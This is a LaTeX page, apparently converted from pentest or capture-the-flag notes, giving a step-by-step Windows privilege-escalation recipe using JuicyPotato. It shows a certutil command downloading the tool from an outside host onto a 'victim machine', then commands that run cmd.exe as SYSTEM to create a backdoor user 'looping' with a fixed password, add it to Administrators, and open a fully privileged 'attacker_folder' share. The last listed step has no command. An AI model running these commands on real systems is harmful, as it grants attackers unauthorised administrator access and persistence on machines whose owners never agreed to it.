 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
\begin{enumerate}
  \begin{itemize}
  \item
    download JuicyPotato.exe and copy in the victim machine
  \item
    create folder in \texttt{C:\textbackslash{}Windows\textbackslash{}Temp}
  \item
    Transfer JuicyPotato to Windows Machine

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{certutil.}\FunctionTok{exe}\NormalTok{ -f -urlcache -split http://10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{/JuicyPotato.}\FunctionTok{exe}\NormalTok{ JP.}\FunctionTok{exe}
\end{Highlighting}
\end{Shaded}
  \item
    Create user looping

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{JP.}\FunctionTok{exe}\NormalTok{ -t * -l 1337 -p C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}cmd.}\FunctionTok{exe}\NormalTok{ -a }\StringTok{"/c net user looping looping123! /add"}
\end{Highlighting}
\end{Shaded}
  \item
    Add user to Administrators group

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{JP.}\FunctionTok{exe}\NormalTok{ -t * -l 1337 -p C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}cmd.}\FunctionTok{exe}\NormalTok{ -a }\StringTok{"/c net localgroup Administrators looping /add"}
\NormalTok{net user looping}
\end{Highlighting}
\end{Shaded}
  \item
    Create Share folder where user with Administrators rules have Full privilege

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{JP.}\FunctionTok{exe}\NormalTok{ -t * -l 1337 -p C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}cmd.}\FunctionTok{exe}\NormalTok{ -a }\StringTok{"/c net share attacker_folder=C:\textbackslash{}Windows\textbackslash{}Temp /GRANT:Administrators,FULL"}
\end{Highlighting}
\end{Shaded}
  \item
    Update local account policy to gain access to the system


\end{itemize}
\end{enumerate}
\end{document}
